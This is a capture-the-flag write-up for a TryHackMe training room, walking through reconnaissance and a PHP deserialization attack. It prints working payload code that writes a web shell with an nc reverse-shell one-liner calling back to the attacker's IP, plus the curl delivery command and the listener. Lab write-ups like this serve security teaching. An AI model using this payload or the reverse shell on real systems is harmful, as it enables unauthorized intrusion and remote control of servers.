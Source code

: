 ```yaml
---
title: Debug
layout: post
author: Bit Criminals Team
date: 2021-06-11 12:07:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/debug
---
```


First, connect to TryHackMe using OpenVPN (or use the AttackBox if you prefer that)start the machine from tryhackme, wait for one minute so that the IP Address shows. Now, we are reading to do our hacking!

## TASK 1

The task is to deploy the box, which we have already done. So click on **Completed** and move on.

## TASK 2

First, let's do a basic nmap scan:
```shell
nmap -Pn -A $MACHINE_IP
```

![](/images/v1per/Debug_1.png)

So, we get 2 open ports: **Port 22 (SSH)** and **Port 80 (HTTP)**

We can see that there's a web-server open, so let's visit the website.
**http://$MACHINE_IP:80**

![](/images/v1per/Debug_2.png)

It's an Apache2 Ubuntu Default page. Nothing much in here. Let's run gobuster in directory busting mode to find some hidden directories.

```shell
gobuster dir -u $MACHINE_IP -w /usr/share/wordlists/dirb/common.txt -z -x html,txt,php
```

![](/images/v1per/Debug_3.png)

We find a **/backup** directory. Let's visit it: **http://$MACHINE_IP:80/backup**

![](/images/v1per/Debug_4.png)

The file which stands out here is the **index.php.bak** (backup files always contain something fishy). Let's download it and see it's contents.
This part stood out:

![](/images/v1per/Debug_5.png)

So, our best guess at this moment is a PHP Deserialization attack. 
Note that we also found a **/index.php** from gobuster. Visiting it, we see a Form Submit area. 

![](/images/v1per/Debug_6.png)

Filling it with arbitrary values and submitting it, we see that it gets displayed in **http://$MACHINE_IP:80/message.txt**, which is what the PHP file we found is doing. I wrote this PHP code for the attack (replace $your_tun0_IP with, well, what it says):

```php
<?php
class FormSubmit{
        public $form_file = 'lol.php';
        public $message = '<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $your_tun0_IP 1234 >/tmp/f"); ?>';
}
$obj = new FormSubmit();
echo urlencode(serialize($obj));
?>
```

Now, run the PHP file using:
```shell
php <your_php_file.php>
```

![](/images/v1per/Debug_7.png)

Copy this output, and run the following command to upload our payload:
```shell
curl -i http://$MACHINE_IP:80/index.php?debug=<copied_text>
```
or just visit the following website:
**http://$MACHINE_IP:80/index.php?debug=<copied_text>**

![](/images/v1per/Debug_8.png)

Now, let's set up a netcat listener on our terminal:
```shell
nc -lnvp 1234
```
and navigate to **http://$MACHINE_IP:80/lol.php**.
And YAY! We have got our shell!

![](/images/v1per/Debug_9.png)

